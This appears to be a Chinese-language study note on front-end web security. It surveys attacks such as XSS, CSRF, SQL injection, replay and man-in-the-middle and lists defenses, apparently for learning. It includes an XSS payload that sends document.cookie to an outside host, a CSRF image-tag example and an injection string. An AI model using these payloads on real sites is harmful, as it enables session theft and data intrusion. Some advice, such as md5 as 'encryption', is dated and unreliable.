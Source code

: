 ### 前端安全

常见攻击手段

* xss( cross-site scripting),跨域脚本攻击
  > `book.com/search?name=<script>document.location='http://vajoy/get?cookie='+document.cookie</script>`
  > 提供的免费wifi, 邮件, 链接
  > 对于XSS的预防自然也是对提交数据的过滤，另外还有一点——谨慎返回用户提交的内容！
  > 不要相信 任何 来自用户的输入（不仅限于 POST Body/QueryString/payload，甚至是 Headers）
* CSRF (Cross-site request forgery), 跨站点伪造攻击
  > a.com  `<a href="http://a.com/logout.php">登出</a>`
  > b.com  `<img src="http://a.com/logout.php">`
  > 给所有请求加上 token 检查。token 一般是随机字符串，只需确保其不可预测性即可。token 可以在 QueryString、POST body 甚至是 Custom Header 里，但千万不能在 Cookies 里。
* SQL注入, XPath
  > book.com/book?id=100 => book.com/book?id=100'or'1'='1
  > 对于这几个攻击，我们需要做的自然是对提交参数的过滤，最好是前端过滤一遍，后端也过滤一遍
* ddos(分布式拒绝服务), 
  > cdn
* http
  > 明文传输
* 重发攻击
  > 他知道这些数据的作用，就可以在不知道数据内容的情况下通过再次发送这些数据达到愚弄接收端的目的
  > 实现了流量攻击，即通过额外增加的数据流影响正常数据流的传输时延，耗用通信链路的带宽
  > 加随机数/加时间戳/加流水号 (微信签名)
* 中间人攻击
  > 是一种“间接”的入侵攻击，这种攻击模式是通过各种技术手段将受入侵者控制的一台计算机虚拟放置在网络连接中的两台通信计算机之间，这台计算机就称为“中间人”。
* 网络劫持攻击
* cookie泄露

安全策略    

* 压缩compression, 混淆obfuscation, 加密encryption 增加客户端代码不可读性
* 非对称加密, 客户端的只能服务端解密
* 哈希进行信息摘要, md5加密token等信息
* Salt
* cookie加密 
* OAuth 2.0 授权
* token 随机, 每一次的请求携带下一次请求的token
